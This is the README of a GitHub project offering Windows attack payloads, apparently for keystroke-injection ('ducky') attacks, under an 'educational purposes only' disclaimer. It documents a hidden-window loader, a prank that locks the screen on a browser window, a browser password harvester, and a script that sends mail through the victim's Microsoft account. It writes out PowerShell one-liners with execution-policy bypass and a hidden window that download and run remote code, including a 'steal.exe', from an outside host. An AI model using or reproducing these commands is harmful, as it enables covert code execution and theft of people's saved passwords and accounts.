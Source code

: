 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> all code targets and has been tested for Windows



# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/Payloads.png" />
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h -ep ByPass "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steal all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L77](edge_email.py#L48-L77)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>



# Build executables

<details>
<summary>Instructions</summary>

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.totallysafe.ch/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.totallysafe.ch/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.totallysafe.ch/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.totallysafe.ch/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

## Acknowledgments
Inspiration, code snippets, etc.

[neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers \
[foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data) \
[unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox

</details>

